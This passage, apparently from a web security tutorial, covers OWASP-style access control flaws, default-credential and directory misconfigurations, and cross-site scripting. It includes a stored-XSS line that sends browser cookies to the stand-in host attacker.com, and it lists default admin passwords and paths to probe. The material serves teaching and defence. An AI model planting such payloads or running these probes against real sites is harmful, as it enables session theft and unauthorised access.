 ```
# Regular user tries admin function
POST /admin/delete_user
user_id=456
# If server doesn't verify admin permissions, it might work!
```

---

## A06: Security Misconfiguration - Default Settings Kill Security

### Common Misconfigurations

**Default credentials:** admin/admin, admin/password still work

**Directory listing enabled:** /backup/ shows database_backup.sql, passwords.txt

**Verbose error messages:** Revealing internal file paths, database schemas, technology details

**Unnecessary services running:** FTP, SSH, debug endpoints in production

### Testing for Misconfigurations
- Try default usernames/passwords
- Check for /admin, /test, /debug, /backup directories
- Look for detailed error messages
- Scan for unnecessary open ports

---

## A07: Cross-Site Scripting (XSS) - Making Browsers Execute Malicious Code

### Why XSS is Dangerous

XSS allows attackers to execute JavaScript in victims' browsers, leading to:
- Cookie theft and session hijacking
- Defacing websites
- Redirecting users to malicious sites
- Performing actions as the victim

### Types of XSS

**Reflected XSS:**
```html
<!-- Vulnerable page shows: -->
<p>Search results for: <script>alert('XSS')</script></p>
<!-- Browser executes the script! -->
```

**Stored XSS:**
```html
<!-- Malicious comment stored in database: -->
<script>fetch('//attacker.com?cookie='+document.cookie)</script>
<!-- Executes for every user viewing the page -->
```
